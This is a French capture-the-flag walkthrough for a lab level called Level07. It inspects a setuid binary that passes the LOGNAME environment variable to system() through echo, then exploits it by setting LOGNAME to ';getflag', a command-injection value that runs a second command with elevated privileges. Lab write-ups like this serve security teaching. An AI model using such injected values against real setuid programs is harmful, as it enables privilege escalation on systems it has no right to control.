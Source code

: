 # Level07

Premiere étape de recherche

	$ ls -la
	-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07

On trouve un binaire avec setuid et setgid

	$ ./level07
	level07

Il affiche son nom

	$ strings level07
	...
	system
	...
	/bin/echo %s
	....

Il utilise system et affiche avec le binaire echo %s

Analysons le avec GDB. Avec un disas main, on voit qu'il utilise asprintf, surement pour completer une chaine avec le echo et la passer a system. Il fait aussi un getenv, pour trouver "level07"?

	$ env | grep level07
	USER=level07
	MAIL=/var/mail/level07
	PWD=/home/user/level07
	HOME=/home/user/level07
	LOGNAME=level07

Si on modifie la variable d'environnement LOGNAME...

	$ export LOGNAME=coucou
	$ ./level07
	coucou

Il utilise cette variable. On va y injecter une autre commande

	$ export LOGNAME=';getflag'
	$ ./level07
	Check flag.Here is your token : XXXXXXXXXXXXXXXX
